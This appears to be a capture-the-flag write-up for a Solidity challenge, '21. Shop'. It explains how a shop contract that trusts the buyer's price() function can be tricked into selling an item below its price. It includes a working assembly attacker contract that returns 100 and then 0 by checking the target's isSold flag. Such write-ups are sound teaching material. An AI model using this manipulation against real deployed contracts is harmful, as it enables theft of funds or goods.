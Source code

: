 # 21. Shop

Сan you get the item from the shop for less than the price asked?

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price{gas:3300}() >= price && !isSold) {
      isSold = true;
      price = _buyer.price{gas:3300}();
    }
  }
}
```

## Vulnerability

The issue here is that _buyer could be a statefull contract that tracks the calls to `price()` in order to return two different values.
The first one `100` or more to pass `if (_buyer.price{gas:3300}() >= price && !isSold)` and the second one as low as possible to pay less on `price = _buyer.price{gas:3300}();`.

The naive approach of using a state variable doesn't work as writing to storage cost 20K gas, much more than the 3300 gas given...

A second approach was to read the `isSold` variable from the Shop contract.

```solidity
contract AttackerNaive {
    IShop immutable targetContract;
 
    constructor(IShop _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        targetContract.buy();
    }

    function price() public view returns (uint256) {
      if (targetContract.isSold() == false) {
        return 100;
      }

      return 0;
    }
}
```

But it doesn't work either as there is not enough gas... Solidity's bytecode contains many unnecessary OPCODES that just eat away the little bit of gas we were given.

So I went for an assembly version :

```solidity
contract Attacker {
    IShop immutable targetContract;
 
    constructor(IShop _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        targetContract.buy();
    }

    function price() public view returns (uint256 p) {

        bytes4 sig = 0xe852e741; // keccak256("isSold()")
        address addr = 0xCa305778dC31fc201e741812fFeC903B2E6c6E05; // Change it for your instance address

        assembly {
            let rvalue := mload(0x40)
            let ptr := add(rvalue, 0x20)
            mstore(ptr, sig)
            mstore(0x40, add(rvalue, 0x40))
            let success := staticcall(3000, addr, ptr, 4, rvalue, 32)

            switch mload(rvalue)
            case 0 {
              p := 100
            }
            default {
              p:= 0
            }
        }
    }
}
```
Which just does the same thing as the naive version but in a cheaper way. This code passes the challenge.

